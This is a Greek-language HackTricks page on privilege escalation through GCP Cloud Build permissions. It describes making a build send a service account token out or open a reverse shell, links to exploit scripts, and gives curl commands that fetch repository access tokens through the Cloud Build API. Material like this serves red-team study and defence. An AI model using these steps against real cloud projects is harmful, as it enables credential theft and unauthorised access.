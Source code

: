 # GCP - Cloudbuild Privesc

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## cloudbuild

Για περισσότερες πληροφορίες σχετικά με το Cloud Build ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Με αυτή την άδεια μπορείτε να **υποβάλετε ένα cloud build**. Η μηχανή cloudbuild θα έχει στο σύστημά της από **προεπιλογή ένα token του cloudbuild Service Account**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Ωστόσο, μπορείτε να **υποδείξετε οποιονδήποτε λογαριασμό υπηρεσίας μέσα στο έργο** στη διαμόρφωση του cloudbuild.\
Επομένως, μπορείτε απλά να κάνετε τη μηχανή να εξάγει το token στον διακομιστή σας ή **να αποκτήσετε ένα reverse shell μέσα σε αυτήν και να πάρετε το token** (το αρχείο που περιέχει το token μπορεί να αλλάξει).

Μπορείτε να βρείτε το αρχικό exploit script [**εδώ στο GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (αλλά η τοποθεσία από την οποία παίρνει το token δεν λειτούργησε για μένα). Επομένως, ελέγξτε ένα script για την αυτοματοποίηση της [**δημιουργίας, εκμετάλλευσης και καθαρισμού ενός ευάλωτου περιβάλλοντος εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) και ένα python script για να αποκτήσετε ένα reverse shell μέσα στη μηχανή cloudbuild και [**να το κλέψετε εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (στον κώδικα μπορείτε να βρείτε πώς να καθορίσετε άλλους λογαριασμούς υπηρεσίας)**.**

Για μια πιο λεπτομερή εξήγηση, επισκεφθείτε [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Πιθανώς** με αυτή την άδεια θα μπορείτε να **ενημερώσετε ένα cloud build και απλά να κλέψετε το token του λογαριασμού υπηρεσίας** όπως έγινε με την προηγούμενη άδεια (αλλά δυστυχώς κατά τη στιγμή της συγγραφής αυτού δεν μπόρεσα να βρω κανέναν τρόπο να καλέσω αυτό το API).

TODO

### `cloudbuild.repositories.accessReadToken`

Με αυτή την άδεια ο χρήστης μπορεί να πάρει το **read access token** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

Με αυτήν την άδεια, ο χρήστης μπορεί να αποκτήσει το **read and write access token** που χρησιμοποιείται για την πρόσβαση στο αποθετήριο:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

Με αυτήν την άδεια μπορείτε **να λάβετε τα repos στα οποία έχει πρόσβαση η σύνδεση:**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
